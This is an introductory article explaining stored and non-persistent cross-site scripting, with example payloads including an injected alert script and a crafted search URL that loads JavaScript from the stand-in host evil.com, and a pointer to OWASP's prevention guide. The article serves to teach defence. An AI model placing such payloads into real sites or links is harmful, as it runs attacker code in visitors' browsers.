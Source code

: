 ```yaml
---
title: What is XSS injection?
description: An intro to XSS injection, and tips on mitigating such attacks.
date_created: 2014-03-28
---
```


XSS injection (XSS stands for Cross-Site Scripting) works a bit like SQL injection: improperly sanitized user-submitted data is used to alter the application's functionality. Instead of altering SQL queries, XSS injection alters HTML and JavaScript.

For example, a hacker could leave the following comment on a vulnerable site:

```
<script>alert('Your site was hacked!');</script>
```

When the site displays the comments, it also serves the hacker's malicious code:

```
<div class='comment'>
 John Johnson said:
 What a great site! Thank you for this article!
</div>
<div class='comment'>
 CleverHacker said:
 <script>alert('Your site was hacked!');</script>
</div>
```

In the example above, all sites visitors would see a popup that says "Your site was hacked". Far more potent attacks have been used to deface important websites.

It is called **persistent** or **stored XSS** when the server stores the malicious code and serves it to the users as in our example above. When the attack is performed by injecting the code in invalid URL parameters, it is called **non-persistent XSS**.

The following example shows how a non-persistent XSS attack is performed. In this example, Bob sends Alice the following URL:

```
http://news.org/search/?q=<script src='evil.com/hack.js'></script>
```

Since the page displays the search query, the `<script>` tag will be executed and the malicious JavaScript file will be loaded:

```
<h1>
 Showing results for query <script src='evil.com/hack.js'></script>
</h1>
```

XSS injection can be preventing by properly sanitizing any user-provided data. OWASP has [an excellent guide](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) on securing your applications against XSS.

